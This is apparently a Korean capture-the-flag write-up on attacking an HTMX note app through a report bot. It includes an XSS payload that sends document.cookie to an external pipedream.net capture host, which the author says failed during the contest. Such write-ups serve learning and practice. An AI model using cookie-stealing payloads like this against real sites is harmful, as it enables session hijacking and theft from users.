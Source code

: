 `note.html`에서 HTMX 라이브러리를 사용하여 Note의 Content 내용을 가져오는 로직이 있었다. 이를 활용해 XSS 공격을 수행하면 될 것 같았다.   

```rust
async fn take_report(Form(report): Form<Report>) -> Result<String, (StatusCode, &'static str)> {
    // No filter params(link and captcha)
    let params = [("link", report.link), ("recaptcha", report.captcha)];
    let client = reqwest::Client::new();
    let res = client
        .post(format!(
            "http://{:}",
            std::env::var("BOT_HOST").expect("Missing BOT_HOST")
        ))
        .form(&params)
        .send()
        .await
        .expect("Can't request bot");
    if res.status() != StatusCode::OK {
        return Err((StatusCode::BAD_REQUEST, "Report failed"));
    }
    Ok(
        std::fs::read_to_string("public/static/fragment/report_success.html")
            .expect("Missing fragment"),
    )
}
```
      
추가적으로, `take_report` 함수에서 봇을 이용하여 유저가 입력한 `link`에 접속하는 코드가 존재해서 HTMX를 사용하여 XSS 공격을 수행하는 것이 올바른 방식임을 확신할 수 있었다. 
    
```html
<div hx-get="/note/1577d24c9046fa52eeb59b0b7806336d40cab5464ca601312cee840f54ed7132" hx-trigger="load delay:1s" hx-target="closest div"></div>
<div></div>
```    
     
`hx-get`을 통해 GET 요청을 날리고 받은 결과 값이 인접한 `<div>` 태그에 반영되는지 확인해보았다.
     
<img src="images/1.PNG" width="700px">
     
`<div id="content">` 안에 결과 값이 잘 들어가는 것이 확인되었다. 다음으로, `hx-get` 속성 값에 `<div hx-get="fetch('https://enbjsc6lizc3g.x.pipedream.net/?d='+document.cookie)" hx-trigger="load delay:1s" hx-target="closest div"></div><div></div>`를 넣어 실행해봤지만 요청이 수행되지 않았다.     
     
`BurpSuite Proxy`를 사용해서 Request를 살펴봤을 때, `GET /note/fetch('https://enbjsc6lizc3g.x.pipedream.net/?d=%27+document.cookie)56445d0ed2630d386f3f33a1d46224ade75d071f701de79cd67eec9c5d18f01256445d0ed2630d386f3f33a1d46224ade75d071f701de79cd67eec9c5d18f012 HTTP/2` 요청을 보내 fetch() 이후 note 이름이 합쳐져 올바르지 않은 경로로 접근하여 실행되지 않는 것을 확인했다. 여기서 외부 사이트에 요청을 보내는 방법을 찾지 못해 삽질을 많이해서 대회 당시에 문제를 풀지 못했다.    
       